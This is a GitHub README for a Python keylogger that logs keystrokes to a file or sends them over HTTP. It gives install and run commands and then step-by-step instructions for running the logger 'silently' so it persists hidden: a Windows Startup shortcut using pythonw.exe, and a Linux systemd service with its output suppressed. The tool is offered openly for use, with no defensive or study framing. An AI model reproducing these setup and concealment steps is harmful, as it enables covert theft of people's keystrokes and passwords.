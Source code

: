 # keylogger-py

## About

Simple python keylogger that works with file storaging or send the content via http.

## Prerequisites

```sh
pip install pynput
```

```sh
pip install requests
```

## Execute

- Windows

```sh
py .\keylogger.py --mode file --ip 127.0.0.251 --port 8080
```

- Linux

```sh
python keylogger.py
```

```sh
python3 keylogger.py
```

- If you dont have permissions to execute the file

```sh
chmod +x keylogger.py
```

## Executing silently (Windows)

- Press Win + R, type shell:startup, and hit Enter. This opens the Startup folder.
- Move the shortcut you created into the Startup folder.
- Edit the shortcut you just moved by right-clicking on it and selecting Properties.
- In the Target field, add the following before the script's path: **pythonw.exe**

- The target should look something like this: **pythonw.exe "C:\path\keylogger.py"**

## Executing silently (Linux)

- Create a service file

```sh
sudo nano /etc/systemd/system/keylogger.service
```

- Service file content

```
[Unit]
Description=My Script Service

[Service]
ExecStart=/usr/bin/python3 /path/to/your/script.py
StandardOutput=null
StandardError=null
Type=simple

[Install]
WantedBy=multi-user.target
```

- Enable the service

```sh
sudo systemctl enable myscript.service
sudo systemctl start myscript.service
```

## Contribution

- The project accepts contribution. Open a Pull Request and I'll review it.
